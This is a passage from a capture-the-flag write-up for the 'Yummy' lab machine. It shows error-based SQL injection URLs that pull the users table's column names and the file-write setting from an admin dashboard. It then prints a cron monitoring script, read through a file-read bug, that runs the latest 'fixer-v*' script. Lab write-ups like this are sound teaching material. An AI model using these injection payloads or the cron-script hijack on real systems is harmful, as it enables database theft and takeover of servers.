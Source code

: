 keep in mind, the error above wouldn't show if the users table didn't exist.

Grabbing user columns using this url SQLI:
```
http://yummy.htb/admindashboard?s=edu&o=ASC; SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (select group_concat(column_name) from information_schema.columns where table_name='users')))
```
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123200033.png)

Looking around further, we can use the following link with SQLi to deduce that we have an arbitrary file read:
```
http://yummy.htb/admindashboard?s=&o=ASC;%20SELECT%20%27foo%27%20WHERE%201=1%20AND%20EXTRACTVALUE(1,%20CONCAT(0x5c,%20(select%20@@secure_file_priv)))
```
Which returns:

![image](/assets/img/2025-02-25-Yummy/Pasted image 20250128190705.png)

indicating that we can write anything on path `\\` which means we can write anywhere on the system.

Looking back at `/etc/crontab` we notice `dbmonitor.sh`, using the LFI we found earlier we can check the contents of `dbmonitor.sh`:

```
#!/bin/bash
 
timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)
 
if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi
 
[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```
We notice that it checks for `dbstatus.json` and if it doesn't fit what it's looking for then it triggers scripts off the latest version using a regex: `fixer-v*`
